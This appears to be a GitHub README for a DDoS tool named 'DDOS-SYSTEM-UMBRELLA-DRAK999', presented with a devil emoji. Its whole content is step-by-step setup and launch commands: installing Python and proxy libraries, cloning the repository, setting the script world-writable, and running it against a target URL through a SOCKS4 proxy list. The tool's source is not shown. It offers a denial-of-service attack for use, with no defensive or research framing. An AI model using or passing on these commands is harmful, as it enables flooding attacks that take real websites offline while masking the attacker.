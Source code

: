 # DDOS-SYSTEM-UMBRELLA-DRAK999
DDOS 😈🤙
pkg install python3

pip3 install requests pysocks

git clone https://github.com/SPOKYHOZOOO/DDOS-SYSTEM-UMBRELLA-DRAK999

cd DDOS-SYSTEM-UMBRELLA-DRAK999

chmod 777 SYSTEM-UMBRELLA-DRAK999.py

python3 SYSTEM-UMBRELLA-DRAK999.py  -url http://target.com -f socks4.txt -v 4 -s 30
